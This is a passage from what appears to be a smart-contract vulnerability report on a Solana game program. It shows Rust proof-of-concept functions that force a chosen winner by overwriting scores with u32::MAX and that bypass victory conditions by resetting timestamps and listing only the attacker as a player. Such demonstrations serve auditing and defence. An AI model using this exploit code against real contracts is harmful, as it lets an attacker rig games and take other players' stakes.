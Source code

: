```rust
        game_result.team_red_score = u32::MAX;
        game_result.team_blue_score = 0;
    } else {
        game_result.team_red_score = 0;
        game_result.team_blue_score = u32::MAX;
    }

    // Method 3: Override individual scores
    game_result.individual_scores.clear();
    game_result.individual_scores.insert(desired_winner, u32::MAX);

    msg!("Forced winner: {}", desired_winner);

    Ok(())
}
```

#### 3. Victory Condition Bypass
```rust
pub fn bypass_victory_conditions(
    ctx: Context<VictoryBypass>
) -> Result<()> {
    let game_session = &mut ctx.accounts.game_session;
    let attacker = ctx.accounts.attacker.key();

    // Bypass time requirements
    game_session.start_time = 0;
    game_session.end_time = Clock::get()?.unix_timestamp;

    // Bypass participation requirements
    game_session.players.clear();
    game_session.players.push(attacker); // Only attacker participated

    // Bypass minimum score requirements
    let mut fake_scores = HashMap::new();
    fake_scores.insert(attacker, 1); // Minimal score for victory

    // Declare victory with bypassed conditions
    finalize_game_result(
        get_finalization_context(&ctx)?,
        attacker,
        fake_scores
    )?;

    msg!("Victory conditions bypassed for {}", attacker);

    Ok(())
}
```

### Advanced Winner Manipulation Framework

